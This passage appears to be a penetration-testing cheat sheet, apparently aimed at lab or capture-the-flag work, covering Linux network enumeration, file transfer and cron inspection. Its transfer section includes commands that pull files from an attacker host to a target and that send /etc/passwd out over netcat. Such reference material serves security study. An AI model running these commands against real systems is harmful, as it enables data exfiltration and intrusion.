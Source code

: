 ### Network Info
```bash
# Show listening ports (when ss/netstat not available)
cat /proc/net/tcp | grep " 0A " # Listening state
cat /proc/net/tcp # All TCP connections

# Active connections
ss -tupln
netstat -tulpn
```

## File Transfer Methods

### Python HTTP Server
```bash
# Python3
python3 -m http.server 8080

# Python2
python -m SimpleHTTPServer 8080

# Download on target
wget http://10.10.14.5:8080/file
curl -O http://10.10.14.5:8080/file
```

### Base64 Transfer (for small files)
```bash
# On attacker
base64 -w0 file.sh > file.b64

# On target
echo "BASE64_STRING_HERE" | base64 -d > file.sh
```

### Netcat Transfer
```bash
# Receiver (your machine)
nc -lvnp 9001 > received_file

# Sender (target)
nc 10.10.14.5 9001 < /etc/passwd
```

## Persistence & Cron

### Check Cron Jobs
```bash
# System crontabs
cat /etc/crontab
ls -la /etc/cron.*

# User crontabs
crontab -l
sudo crontab -l

# Look for cron logs
grep CRON /var/log/syslog
grep CRON /var/log/cron.log
```
